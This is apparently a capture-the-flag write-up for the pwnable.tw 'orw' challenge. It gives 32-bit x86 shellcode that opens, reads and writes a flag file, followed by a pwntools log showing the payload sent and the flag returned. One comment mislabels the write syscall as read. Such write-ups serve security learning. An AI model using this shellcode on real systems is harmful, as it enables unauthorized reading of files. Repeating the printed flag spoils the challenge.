 ```python
#fd = open('/home/orw/flag',0)
push 0x00006761;           ;"/home/orw/flag"的十六进制
push 0x6c662f77;           ;"/home/orw/flag"的十六进制
push 0x726f2f65;           ;"/home/orw/flag"的十六进制
push 0x6d6f682f;           ;"/home/orw/flag"的十六进制
mov ebx, esp;              ;const char __user *filename
mov eax, 0x5;              ;open函数的系统调用：sys_open
int 0x80;


#read(fd,bss+0x200,0x40)
mov ebx, eax;              ;int fd
mov ecx, 0x0804A260;       ;void *buf
mov edx, 0x40;             ;size_t count
mov eax, 0x3;              ;read函数的系统调用：sys_read
int 0x80;

#write(1,bss+0x200,0x40)
mov ebx, 0x1;              ;int fd=1 (标准输出stdout)(0 标准输入，1 标准输出，2 标准错误输出)
mov ecx, 0x0804A260;       ;void *buf
mov edx, 0x40;             ;size_t count
mov eax, 0x4;              ;read函数的系统调用：sys_read
int 0x80;
‘’‘
```

```python
➜  others python orw_exp.py 
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[DEBUG] cpp -C -nostdinc -undef -P -I/home/ubuntu/.local/lib/python2.7/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    xor eax,eax;xor ebx,ebx;xor ecx,ecx;xor edx,edx;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;mov eax,0x5;int 0x80;mov ebx,eax;mov ecx,0x0804A260;mov edx,0x40;mov eax,0x3;int 0x80;mov ebx,0x1;mov ecx,0x0804A260;mov edx,0x40;mov eax,0x4;int 0x80;
[DEBUG] /usr/bin/x86_64-linux-gnu-as -32 -o /tmp/pwn-asm-7bYAEr/step2 /tmp/pwn-asm-7bYAEr/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-7bYAEr/step3 /tmp/pwn-asm-7bYAEr/step4
[DEBUG] Received 0x17 bytes:
    'Give my your shellcode:'
[DEBUG] Sent 0x4f bytes:
    00000000  31 c0 31 db  31 c9 31 d2  68 61 67 00  00 68 77 2f  │1·1·│1·1·│hag·│·hw/│
    00000010  66 6c 68 65  2f 6f 72 68  2f 68 6f 6d  89 e3 b8 05  │flhe│/orh│/hom│····│
    00000020  00 00 00 cd  80 89 c3 b9  60 a2 04 08  ba 40 00 00  │····│····│`···│·@··│
    00000030  00 b8 03 00  00 00 cd 80  bb 01 00 00  00 b9 60 a2  │····│····│····│··`·│
    00000040  04 08 ba 40  00 00 00 b8  04 00 00 00  cd 80 0a     │···@│····│····│···│
    0000004f
[DEBUG] Received 0x40 bytes:
    00000000  46 4c 41 47  7b 73 68 33  6c 6c 63 30  64 69 6e 67  │FLAG│{sh3│llc0│ding│
    00000010  5f 77 31 74  68 5f 6f 70  33 6e 5f 72  33 34 64 5f  │_w1t│h_op│3n_r│34d_│
    00000020  77 72 69 74  33 7d 0a 00  00 00 00 00  00 00 00 00  │writ│3}··│····│····│
    00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000040
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
```